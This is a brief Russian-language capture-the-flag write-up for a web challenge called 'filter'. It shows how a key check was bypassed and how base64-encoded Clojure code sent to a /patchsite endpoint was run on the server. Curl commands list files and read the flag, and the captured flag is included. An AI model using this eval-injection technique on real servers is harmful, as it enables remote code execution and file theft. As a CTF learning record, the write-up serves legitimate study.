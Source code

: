 1. Мы посмотрели в исходники по которым понятно что есть форма /patchsite которая принимает 2 параметра, key и command
- длинна key >10 <15 
- последовательность ert удаляется
- пробелы в начале и конце удаляются 
- после итоговой обработки должен ыть равен qwerty
key берем например "      qweertrty"
- command это base64 от clojure кода который обрезан по =, и эвалюейтится (соответственно добиваем пробелами код, что бы не было пидинга)
2. Курим как в clojure работать с fs 

- (seq (.list (clojure.java.io/file ".") ) ) - листинг текущей директории
- (slurp "filname") вывод фаила

$ curl -XPOST http://filter.ctf2019.rocks/patchsite -d'key=      qweertrty&command=KHNlcSAoLmxpc3QgKGNsb2p1cmUuamF2YS5pby9maWxlICIuIikgKSAp'
targetflagsrcproject.clj

$ curl -H "Host: filter.ctf2019.rocks" http://92.223.25.115/patchsite -d'key=      qweertrty&command=KHNsdXJwICJmbGFnIiAp' (slurp "flag")
  WGCTF{83679AB7B512F757C5B86F3908D1579E}

./src/filter/flag.clj - второй доп

3. secret-view генерит доп флаг, по кондишенам получаем строку abababababababab от которой надо взять md5 хеш
